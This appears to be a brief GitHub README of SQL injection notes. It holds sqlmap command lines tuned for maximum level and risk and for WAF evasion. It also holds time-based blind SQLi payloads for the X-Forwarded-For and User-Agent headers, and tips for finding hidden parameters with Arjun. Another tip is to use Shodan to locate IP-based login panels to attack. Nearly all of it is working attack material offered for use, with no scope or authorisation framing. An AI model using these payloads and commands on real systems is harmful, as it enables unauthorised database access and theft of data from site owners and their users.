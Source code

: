 # sqlpayload

* sqlmap.py -u “<URL>” --batch --banner

* On login / php website try sqli payloads 

* Use shodan for IP based login panels - try sqli

* always try sql injcetion on php site .php ending url guess hidden param with Arjun and try to perform there

* mostly try on hidden param finded with Arjun so try to guess more hidden param as possible throw fuzzing etc

# Bug : Blind SQL Injection
Tips : X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z

# waf bypass sqlmap

* sqlmap -u “url” -p parameter --level 5 --risk 3 --dbms="MySQL" --random-agent --test-filter="boolean-based blind"  --current-user --hostname

# sql injcetion tip

Application was using php ( whenever I see php , I test sqli first ) 
I tried blind sqli payload in login params  - not worked
sprayed in user-agent - worked✅

User-Agent: "XOR(if(now()=sysdate(),sleep(5),0))XOR"
===> 5.xx seconds delay
